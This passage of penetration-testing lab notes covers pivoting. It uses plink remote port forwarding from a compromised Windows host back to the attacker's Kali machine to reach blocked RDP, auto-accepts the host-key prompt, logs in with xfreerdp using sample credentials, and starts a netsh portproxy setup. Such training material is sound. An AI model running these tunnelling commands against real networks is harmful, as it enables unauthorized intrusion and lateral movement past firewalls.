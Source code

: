 This is a remote port forward, where we can access a remote machine's RDP port 3389 on our own loopback interface:

**This might log our Kali password somewhere undesirable! If we're in a hostile network, we may wish to create a port-forwarding only user on our Kali machine for remote port forwarding situations.**

```bash
\c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

**Much the same way that it's not possible to accept the SSH client key cache prompt from a non-TTY shell on Linux, with some very limited shells with Plink on Windows, we also won't be able to respond to this prompt. An easy solution in that case would be to automate the confirmation with cmd.exe /c echo y, piped into the plink.exe command. This will emulate the confirmation that we usually type when prompted. The entire command would be:**

```bash
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw password -R 127.0.0.1:9833:127.0.0.1:3389 192.168.69.182
```

You can now RDP into the previously blocked RDP port:

```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

**Local port forwards allow you to access what's on a remote machine's loopback on your own. Remote port forwarding allows you to access a remote machine's blocked port on your own loopback.**


#### Netsh

Native to Windows, typically used as a built-in firewall configurartion tool.

Let's consider a slight modification of the previous scenario. MULTISERVER03 is serving its web application on TCP port 80 on the perimeter. CONFLUENCE01 is no longer accessible on the WAN interface. For simplicity, the firewall on MULTISERVER03 also allows inbound TCP port 3389, meaning we are able to log in over RDP directly.

We want to SSH into PGDATABASE01 directly from our Kali machine. To do this, we'll need to create a port forward on MULTISERVER03 that will listen on the WAN interface and forward packets to the SSH port on PGDATABASE01.

The portproxy subcontext of the netsh interface command requires administrative privileges to make any changes. This means that in most cases we will need to take UAC into account. In this example, we're running it in a shell over RDP using an account with administrator privileges, so UAC is not a concern. However, we should bear in mind that UAC may be a stumbling block in other setups.

To start setting up a port forward, let's RDP directly into MULTISERVER03 from our Kali machine using xfreerdp again:

```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
```

In our RDP session, we can run cmd.exe as administrator to open a command window.
